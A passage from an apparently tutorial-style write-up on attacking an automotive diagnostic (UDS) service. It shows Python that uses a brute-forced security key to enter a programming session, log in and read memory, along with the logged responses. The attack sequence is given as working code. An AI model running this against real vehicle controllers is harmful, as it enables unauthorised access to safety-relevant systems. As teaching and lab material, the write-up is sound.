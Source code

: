```python
    logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
    if response[1] != 0x7f:
        logger.info(f"Key Found: {b1, b2, b3, b4}")
        break
```

We have successfully obtained a key.

```bash
INFO - Key Found: (0, 0, 1, 0)
```

## Step 7: Read Memory

After we have obtained the correct key now we will try to read the memory again and see.

```python
# Get into Programming Session
payload = bytearray([0x2, 0x10, 0x2])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))} (Changing to Programming Session)")

# Get a Seed
payload = bytearray([0x2, 0x27, 0x1])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
seed = response[3:]
logger.info(f"Seed: {seed}")

# Login
payload = bytearray([0x6, 0x27, 0x2, 0x0, 0x0, 0x1, 0x0])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
if response[1] != 0x7f:
    logger.info(f"Logged in")

# Read Memory
payload = bytearray([0x6, 0x23, 0x22, 0x10, 0x00, 0x00, 0x01])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
```
